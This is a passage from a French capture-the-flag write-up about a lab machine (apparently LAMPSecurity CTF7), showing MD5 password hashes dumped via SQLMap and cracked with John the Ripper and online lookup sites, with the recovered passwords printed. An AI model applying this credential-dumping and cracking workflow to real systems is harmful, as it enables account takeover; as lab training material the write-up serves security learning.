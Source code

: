 ```console
| http://192.168.56.103:8080/users.php          | password          | GET (op=new_scr)  |
+-----------------------------------------------+-------------------+-------------------+
```

## Cassage des mots de passe MD5 présents en base de données

En effet, SQLMap a même eu la gentillesse de demander si les hashs de mots de passe trouvés dans la base de données devaient être crackés ou non (bien sûr que oui !). Ainsi, [l'attaque par dictionnaire sur les hashs de mot de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) a porté ses fruits : dans la table _users_, neuf mots de passe dont huit distincts ont été trouvés. Celui de Ruby Spinster n'a pas été trouvé dans le lot, mais il apparaît dans la table _log_ et une brève vérification du hash MD5 _Shelly2012_ permet de le confirmer.

```console
root@blinils:~# cat CTF7-passusers.txt
brian@localhost.localdomain:e22f07b17f98e0d9d364584ced0e3c18
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomain:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomain:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomain:b2a97bcecbd9336b98d59d9324dae5cf
foo@bar.com:4cb9c8a8048fd02294477fcb1a41191a
test@nowhere.com:098f6bcd4621d373cade4e832627b4f6
test@test.test:098f6bcd4621d373cade4e832627b4f6

root@blinils:~# john CTF7-passusers.txt --format=Raw-MD5 --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 12 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
madrid           (julia@localhost.localdomain)
changeme         (foo@bar.com)
qwer1234         (leon@localhost.localdomain)
test             (test@nowhere.com)
chuck33          (charles@localhost.localdomain)
turtles77        (alice@localhost.localdomain)
somepassword     (michael@localhost.localdomain)
my2cents         (brian@localhost.localdomain)
--snip--
Session completed
```

Une recherche sur [CrackStation](https://crackstation.net/) puis sur [HashKiller](https://www.hashkiller.co.uk/md5-decrypter.aspx) permet d'obtenir les mots de passe manquants.
